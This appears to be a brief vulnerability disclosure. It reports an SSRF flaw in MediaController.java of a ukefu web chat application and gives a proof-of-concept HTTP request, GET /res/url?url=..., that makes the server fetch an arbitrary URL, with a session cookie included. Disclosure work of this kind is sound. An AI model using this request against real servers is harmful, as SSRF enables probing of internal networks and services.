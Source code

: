 In the file `com/ukefu/webim/web/handler/resource/MediaController.java`, there is code that allows the server to make requests to a URL provided by the user. This behavior can lead to a **Server-Side Request Forgery (SSRF)** vulnerability.

![image-20250320185115950](./image-20250320185115950.png)

Poc:

```
GET /res/url?url=http://www.baidu.com HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: remember-me=YWRtaW46MTc0MzA2NTA3NDE2MjphZmU1NjA2MWRlNWVhM2YzNGI0Y2Y0N2ZjM2YyMzNlNQ
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i


```

![image-20250320185503858](./image-20250320185503858.png)